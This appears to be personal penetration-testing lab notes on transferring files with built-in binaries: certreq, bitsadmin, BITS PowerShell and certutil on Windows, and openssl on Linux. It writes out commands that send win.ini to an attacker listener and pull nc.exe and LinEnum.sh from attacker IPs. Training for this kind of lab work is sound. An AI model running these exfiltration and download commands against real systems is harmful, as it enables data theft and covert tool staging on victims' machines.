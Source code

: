 
# LOLBAS/Windows
## search using `/` 
https://lolbas-project.github.io/lolbas/Binaries/Certreq/

`using Certreq for uploading:`
``` title:attacker
sudo nc -lvnp 8000
```

``` title:victim
C:\htb> certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```
### 

``` title:Bitsadmin-Download function
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```


```powershell-session title:downloading via title:download-ps-bitsadmin
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

`Download using CertUtil [detectable by Antimalware Scan Interface]`
```cmd-session
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```


## GTFOBINS 

for linux `+file download` or `+file upload`

using openSSL for downloading:

``` title:gen-server-cert
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

``` title:start-server
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```
```bash title:VICTIM 
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```
